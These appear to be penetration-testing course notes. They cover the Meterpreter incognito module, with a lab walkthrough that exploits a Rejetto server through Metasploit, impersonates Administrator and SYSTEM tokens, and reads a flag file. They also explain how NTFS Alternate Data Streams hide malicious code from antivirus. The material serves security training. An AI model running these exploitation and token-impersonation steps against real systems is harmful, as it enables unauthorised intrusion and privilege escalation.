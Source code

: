 #### Incognito module

* Incognito is a built-in meterpreter module that was originally a standalone application that allows to impersonate user tokens after successful exploitation.
* We can use the incognito module to display a list of available tokens that we can impersonate.

#### Lab

```bash
john@attack> nmap 10.3.16.83
john@attack> msfconsole

msf6> search rejetto
msf6> use 0
msf6> set rhosts 10.3.16.83
msf6> run

meterpreter> getuid            # NT AUTHORITY\LOCAL SERVICE
meterpreter> getprivs
meterpreter> pgrep explorer
meterpreter> migrate 3788
meterpreter> load incognito
meterpreter> list_tokens -u
meterpreter> impersonate_token "ATTACKDEFENSE\Administrator"

meterpreter> getuid            # ATTACKDEFENSE\Administrator
meterpreter> getprivs
meterpreter> pgrep explorer
meterpreter> migrate 3788
meterpreter> list_tokens -u
meterpreter> impersonate_token "NT AUTHORITY\SYSTEM"

meterpreter> getuid            # NT AUTHORITY\SYSTEM
meterpreter> shell

C:\Windows\system32> more c:\users\administrator\desktop\flag.txt
```

### Alternate Data Streams (ADS)

#### Description

* Alternate Data Streams (ADS) is an NTFS (New Technology File System) file attribute and was designed to provide compatibility with the MacOS HFS (Hierarchical File System).
* Any file created on an NTFS formatted drive will have two different forks/streams :
  * Data stream : default stream that contains the data of the file.
  * Resource stream : typically contains the metadata of the file.
* Attackers can use ADS to hide malicious code or executables in legitimate files in order to evade detection.
* This can be done by storing the malicious code or executables in the file attribute resource stream (metadata) of a legitimate file.
* This technique is usually used to evade basic signature based AVs and static scanning tools.
